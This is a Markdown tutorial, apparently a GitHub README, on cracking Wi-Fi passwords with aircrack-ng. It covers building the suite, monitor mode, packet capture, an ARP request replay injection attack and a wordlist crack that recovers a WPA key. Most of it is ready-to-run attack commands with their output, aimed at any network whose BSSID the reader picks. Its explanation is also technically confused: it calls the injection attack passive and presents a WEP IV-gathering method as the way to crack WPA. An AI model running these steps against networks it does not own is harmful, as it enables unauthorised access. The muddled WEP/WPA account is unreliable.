 # Wi-Fi cracking with aircrack-ng

[Aircrack-ng](https://aircrack-ng.org/) is basically a network software suite that has been crafted to achieve the following objectives:

* packet sniffing
* attacking (replay attacks, deauthentication, fake access points...) via packet injection
* testing Wi-Fi cards and driver capabilities (capture and injection)
* cracking WEP and WPA/WPA2 Wi-Fi routers

Note that the present tutorial is not an exhaustive guide, rather it is intended to build some basic skills to test your own network's security and get familiar with the concepts.

The attack outlined below is based on a passive technique (ARP request replay attack) and it focuses on debian-based distributions assuming you have a working wireless card with drivers already patched for injection.

## Aircrack-ng installation

Aircrack-ng can be installed on a debian-based operating system by compiling the source code (for more details you can visit the [official website](https://aircrack-ng.org/)).

### Installing required and optional dependencies

Below you can find instructions for installing the basic requirements to build aircrack-ng for Debian-based operating systems.

```ShellSession
$ sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

Get the latest copy of aircrack-ng:

```ShellSession
$ git clone https://github.com/aircrack-ng/aircrack-ng
$ cd aircrack-ng
```

### Compiling and installing

To build aircrack-ng, the Autotools build system is used.
First, `./configure` the project for building with the appropriate options:

```ShellSession
$ autoreconf -i
$ ./configure --with-experimental
```

Next, compile the project with the `make` command and use the "installing" target from the additional targets listed below to complete the installation.

* Execute all unit testing: `make check`
* Execute all integration testing (requires root): `make integration`
* Installing: `make install`
* Uninstall: `make uninstall`

## Test wireless device packet injection

The purpose of this step ensures that your card successfully supports injection.
Assuming your interface name is "wlan0" (you can retrieve it typing `iwconfig` on the terminal), type the following command:

```ShellSession
# aireplay-ng --test wlan0
```

The system responds:

```ShellSession
18:10:59  wlan0 channel: 10
18:10:59  Trying broadcast probe requests...
18:10:59  Injection is working!
18:11:00  Found 1 AP
...
```

This confirms your card can inject packets.

## Simple sniffing and cracking

### 1. Start the wireless interface in monitor mode

The first thing to do is looking out for a potential target putting your wireless card into monitor mode using `airmon-ng`. However, it is strongly recommended to `kill` all interfering processes prior to using the aircrack-ng suite.

```ShellSession
# airmon-ng check kill
Killing these processes:

  PID Name
  870 dhclient
 1115 wpa_supplicant
```

Then, it is possible to enable the monitor mode used to create another interface (mon0):

```ShellSession
# airmon-ng start wlan0

PHY         Interface       Driver         Chipset

phy0        wlan0           ath9k          Qualcomm Atheros AR9485
                               (monitor mode enabled for [phy0]wlan0 on [phy0]mon0)
```

You will notice that "wlan0" has successfully been put into monitor mode.
Then, start `airodump-ng` to look out for networks:

```ShellSession
# airodump-ng mon0
```

Locate the wireless network you want to crack, and note its BSSID and channel from the following output:

```ShellSession
CH 10 ][ Elapsed: 36 s][2019-05-15 18:15
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router
...
```

Note that the top part of the output lists information about APs in range, and the bottom part lists clients connected to the corresponding APs.

### 2. Start airodump-ng to capture the initial vectors

Open another console session to capture the initial vectors generated by the target and to save the result into a file:

```ShellSession
# airodump-ng -c 10 --bssid 08:00:BF:E6:31:2E -w output-file mon0
```

where `-c 10` is the channel for the wireless network, `--bssid 08:00:BF:E6:31:2E` is the MAC address of the AP, `-w output-file` defines the output files that will contain the initialization vectors, and `mon0` is the interface name.

The system responds:

```ShellSession
CH 10 ][ Elapsed: 12 s][2019-05-15 18:16
BSSID              PWR  RXQ  Beacons  #Data,  #/s  CH  MB  ENC  CIPHER AUTH ESSID
08:00:BF:E6:31:2E  -21  100     5240  178307  338  10  54  WPA  CCMP   PSK  infosec_router

BSSID              STATION            PWR  Lost  Packets  Probes
08:00:BF:E6:31:2E  00:0F:35:51:AC:22  -21     0   183782
```

After the execution of the command various files will be generated.

### 3. Start aireplay-ng in ARP request replay mode

The classic ARP request replay attack is the most effective way to generate new initialization vectors, and works very reliably. The purpose of this step is to start `aireplay-ng` in a mode which listens for ARP requests then reinjects them back to the access point.
Keep your `airodump-ng` and `aireplay-ng` running, open another terminal and run the ARP request replay attack:

```ShellSession
# aireplay-ng --arpreplay -b 08:00:BF:E6:31:2E -h 00:0F:35:51:AC:22 mon0

Saving ARP requests in replay_arp-0321-191525.cap
You should also start airodump-ng to capture replies.
Read 618643 packets (got 304896 ARP requests), sent 194947 packets...
```

You can check if the packets are injected by looking at the `airodump-ng` screen.

### Run aircrack-ng to obtain the WPA key

At this point, you should be able to obtain the WPA key from the initialization vectors gathered in the previous steps. To perform this attack you need a wordlist and if the network password is not in the wordfile you will not crack the password.
Open another console session and type:

```ShellSession
# aircrack-ng -a2 -b 08:00:BF:E6:31:2E -w wordlist.txt output*.cap
```

where `-a2` specifies the attack mode for WPA/WPA2-PSK,  `-w wordlist.txt` refers to your own dictionary wordlist, and `output*.cap` selects all output files with `.cap` extension.

This is the output of a successful attack:

```ShellSession
                        Aircrack-ng 1.5.2
[00:00:00] 192/1229 keys tested (520.04 k/s)

Time left: 0 seconds                                      15.62%

                     KEY FOUND! [ notsecure ]

Master Key     : 42 28 5E 5A 73 33 90 E9 34 CC A6 C3 B1 CE 97 CA
                 06 10 96 05 CC 13 FC 53 B0 61 5C 19 45 9A CE 63

Transient Key  : 86 D0 43 C9 AA 47 F8 03 2F 71 3F 53 D6 65 F3 F3
                 86 36 52 0F 48 1E 57 4A 10 F8 B6 A0 78 30 22 1E
                 4E 77 F0 5E 1F FC 73 69 CA 35 5B 54 4D B0 EC 1A
                 90 FE D0 B9 33 06 60 F9 33 4B CF 30 B4 A8 AE 3A

EAPOL HMAC     : 8E 52 1B 51 E8 F2 7E ED 95 F4 CF D2 C6 D0 F0 68
```

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Disclaimer

This tutorial has been made for educational purposes only, I don't promote malicious practices and I will not be responsible for any illegal activities.
